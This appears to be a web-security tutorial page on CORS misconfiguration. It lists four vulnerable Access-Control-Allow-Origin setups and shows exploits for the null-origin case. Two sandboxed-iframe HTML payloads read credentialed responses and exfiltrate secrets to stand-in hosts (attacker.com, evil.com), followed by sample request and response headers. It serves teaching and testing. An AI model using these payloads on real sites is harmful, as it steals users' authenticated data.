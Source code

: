 ```yaml
---
title: CORS Misconfiguration 
description: Introduction to CORS Misconfiguration vulnerabilites.
---
```


# CORS Misconfiguration

Most CORS attacks rely on the presence of the response header: `Access-Control-Allow-Credentials: true`.

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

> References [portswigger.net](https://portswigger.net/web-security/cors).

Case :

1. `Access-Control-Allow-Origin: *` : Allow everyone to fetch this ressource, it can be dangerous if the ressource is not intended to be public.
2. `Access-Control-Allow-Origin` always reflect the value of the `Origin` request header : Same as `1)`, there are no protections.
3. `Access-Control-Allow-Origin` is set to a specific domain or reflect the value of the `Origin` request header only on subdomains : Try to find XSS on this domains.
4. `Access-Control-Allow-Origin` is `null` if the `Origin` is `null` :

You cannot set the value of the `Origin` request header using `fetch` or `XHR` because this header is not "safe".
However, this misconfiguration can still be exploited. Sandboxed elements (ex: `iframe`) sets the `Origin` header to `null` by default.

Example of exploit :

```html
<iframe sandbox="allow-scripts" src="data:text/html,
<script>
fetch('https://api.cors-null-vulnerable.com/sensitiveContent', {
    credentials: 'include'
})
.then(response => response.json())
.then(j => document.location=`https://attacker.com/exfiltration?key=${j['secret_key']}`);
</script>
"></iframe> 
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://example.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://evil.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

HTTP Request headers :

```
GET /sensitiveContent HTTP/1.1
Host: api.cors-null-vulnerable.com
Cookie: session=agurne3nriezwaejpanrghq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: null
[...]
```

HTTP response :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "secret_key": "12345",
}
```